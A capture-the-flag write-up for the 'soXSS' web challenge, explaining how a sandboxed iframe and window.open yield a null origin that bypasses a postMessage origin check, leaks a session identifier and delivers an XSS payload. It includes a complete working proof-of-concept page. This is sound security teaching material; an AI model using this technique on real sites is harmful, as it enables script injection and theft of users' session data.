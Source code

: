 ## soXSS

![2022-04-07_01-54](https://user-images.githubusercontent.com/59454895/162093274-f54f182c-1dae-4f29-98ce-a7e1792f40fd.png)

## Let's begin

The first thing that can be noticed in the challenge is the use of post-messages and also the use of dompurify ( The latest version of the library was in use, so we couldn't bypass DomPurify without having a 0day ), as you can see from this screen:

![2022-04-07_02-01](https://user-images.githubusercontent.com/59454895/162093835-fd21e646-42a8-4395-b241-62196c4346ec.png)


Furthermore, at the following link (https://so-xss.terjanq.me/iframe.php/?source) it is possible to notice another part of the code, here the goal is very straightforward, the highlighted condition needs to be bypassed in order to reach the sink and execute XSS.

![2022-04-07_02-07](https://user-images.githubusercontent.com/59454895/162094500-690c045b-eaf3-44e0-bee3-82b866bf9d34.png)

The functioning of this part of the code is very clear, a listener event was used in order to check that the source and the identifier are not different, it's also important to say that the identifier is stored in an user's session.

First of all it was necessary to find a way to bypass this check ```e.origin !== window.origin```, After hitting my head a bit I found this thread on StackOverflow that really helped me a lot (https://stackoverflow.com/questions/55451493/what-is-window-origin,  https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox), apparently if we embed the iframe via ```<iframe src="https://so-xss.terjanq.me/iframe.php" sandbox>``` we can force the ```null``` origin.

Now another problem arises, as the page cannot be embedded inside an iframe because there was the flag ```X-Frame-Options: SAMEORIGIN```. It means that the page can only be displayed in a frame on the same origin as the page itself. 

### There is still hope

One important feature proved very important to overcome this problem, all windows opened from sandbox iframe inherit the sandbox flag, as documentated here: https://www.w3.org/TR/2010/WD-html5-20100624/the-iframe-element.html.
It means that we don't need to put the page inside an iframe, we can just created a sandbox iframe and use ```window.open``` inside it, like this:
```javascript
<iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
  function run() {
    var win = window.open('https://so-xss.terjanq.me/iframe.php')
    setTimeout(() => {
      win.postMessage({
            identifier: 'abc',
            type: 'render',
            body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
        }, '*');
    }, 2000)
  }
</script>"></iframe>
```
In this way the newly opened window inherit the sandbox flag and his origin will become null. Just to be more clear, it means that the iframe with the ```sandbox``` attribute and the window for iframe.php (which is accessible by the variable win) share the same origin null.
Now another issue appears, The page on iframe.php has the origin "null", so we can't access any resources on the origin ```so-xss.terjanq.me``` and the rules says that we need to execute xss on that origin.

This is where the parameter ```identifier``` comes into play, because it's possible to open ```https://so-xss.terjanq.me/iframe.php``` and send XSS with stolen identifier so the origin is ```so-xss.terjanq.me```.

This is the final poc :
```javascript
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>test</title>
  </head>
  <body>
    <iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
      function run() {
        var win = window.open('https://so-xss.terjanq.me/iframe.php')
        setTimeout(() => {
          win.postMessage({
                identifier: 'abc',
                type: 'render',
                body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
            }, '*');
        }, 2000)
      }
    </script>"></iframe><button onclick="run()">click me 2</button>
    <script>
      var realWin
      var identifier

      function send() {
        if (!realWin) {
          setTimeout(send, 500)
          return
        }

        // give it some time to load
        setTimeout(() => {
          realWin.postMessage({
            identifier,
            type: 'render',
            body: `<img src=x onerror=alert(origin)>`,
          }, '*');
        }, 1000)
        
      }
      onmessage = (e) => {
        if (e.data && e.data.identifier) {
          identifier = e.data.identifier
          console.log('identifier:', identifier)
          send()
        }
      }
      function run() {
        realWin = window.open('https://so-xss.terjanq.me/iframe.php')
      }

    </script>
  </body>
</html> 
```
To resume :

1) Open https://so-xss.terjanq.me/iframe.php from a sandboxed iframe with ```window.open```, so in this way the newly opened window inherit the sandbox flag and his origin will become null.
2) Open https://so-xss.terjanq.me/iframe.php and send the XSS with the stolen identifier, in this way the origin will be ```so-xss.terjanq.me.```


